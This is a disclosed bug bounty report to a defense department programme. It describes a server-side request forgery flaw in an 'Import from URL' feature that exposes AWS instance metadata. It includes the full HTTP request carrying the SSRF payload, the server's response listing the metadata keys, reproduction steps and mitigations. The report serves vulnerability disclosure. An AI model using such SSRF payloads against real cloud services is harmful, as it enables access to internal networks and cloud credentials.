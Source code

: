 # SSRF ACCESS AWS METADATA - █████

## Report Details
- **Report ID**: 1623685
- **URL**: https://hackerone.com/reports/1623685
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-07-04T05:59:09.329Z
- **Disclosed**: 2022-09-14T20:35:27.718Z

## Reporter
- **Username**: 0xr3dhunt
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hi Security Team,
Based on https://hackerone.com/hack-us-h1c challenge, I have urgent vulnerability and the challenge doesn't accept reprots for now 1:56 AM 
.
I have found a SSRF Vulnerability which allow access to the AWS metadata, using Parameter `?url=` as shown blew
An attacker can tunnel into internal networks and access sensitive internal data such as AWS meta data information.

.
**Http Request**
```http
GET /api/v1/download-url?url=http://█████/latest/meta-data/ HTTP/1.1
Host: ████████
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Access-Control-Allow-Origin: *
Referer: https://████/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close


```
.
**Http Response**
```http
HTTP/1.1 200 OK
Server: nginx/1.21.6
Date: Mon, 04 Jul 2022 05:42:12 GMT
Content-Type: text/plain
Connection: close
Strict-Transport-Security: max-age=31536000; includeSubdomains
X-Frame-Options: DENY
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
X-Download-Options: noopen
X-Permitted-Cross-Domain-Policies: none
Content-Security-Policy: object-src 'none'; script-src 'unsafe-inline' 'unsafe-eval' 'strict-dynamic' https: http:;
Front-End-Https: on
Content-Length: 313

ami-id
ami-launch-index
ami-manifest-path
block-device-mapping/
events/
hostname
identity-credentials/
instance-action
instance-id
instance-life-cycle
instance-type
local-hostname
local-ipv4
mac
metrics/
network/
placement/
profile
public-hostname
public-ipv4
public-keys/
reservation-id
security-groups
services/
```
.
.
**SCREEN SHOT**
████
.
.

## Impact

SSRF Vulnerability 
Remote Access to AWS metadata

## System Host(s)
█████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
1 - Visit https://██████████
2 - Press 'Import from URL' Button & Enter SSRF Payload in the Dialog Box
3 - Intercept the Request & observe the response

## Suggested Mitigation/Remediation Actions
Sanitize user supplied input in paramter `?url=`
Block access to internal networks



## Attachments
No attachments
